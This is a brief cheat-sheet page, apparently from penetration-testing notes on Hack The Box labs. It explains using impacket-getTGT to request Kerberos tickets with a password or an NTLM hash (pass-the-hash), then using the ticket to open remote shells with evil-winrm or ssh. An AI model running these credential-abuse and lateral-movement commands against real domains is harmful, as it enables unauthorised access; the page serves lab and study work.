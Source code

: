 # impacket-getTGT

The getTGT tool specifically is used to request a Ticket Granting Ticket (TGT) from a Kerberos Key Distribution Center (KDC) within a Windows domain.

## Usage

```
impacket-getTGT <domain>/<username>:<password>
getTGT.py <domain>/<username>
```

Getting a ticket with NTLM hash:

```
impacket-getTGT  -hashes :<ntlm_hash> <domain>/'<username>'
impacket-getTGT  -hashes :aad3b435b51404eeaad3b435b51404ee vintage.htb/'GMSA01$'
```

### Use a TGT to connect with evil-winrm or ssh

Make sure the clock is sync with kerberos:
```
https://github.com/AndreMIsidoro/escalations/blob/f6dc2013309973181232d7ec1a6f7a9c6f41d070/ad_enumeration.md#sync-time-with-kerberos
```

Then get the ticket and export it:

export KRB5CCNAME=<path_to_ticket>

Finally edit /etc/krb5.conf with the domain name and the dc name.

Connect by doing:

```shell
ssh <username>@<server>
evil-winrm -i <server_ip> -r <domain_name>
#example
evil-winrm -i frizzdc.frizz.htb -r frizz.htb
```
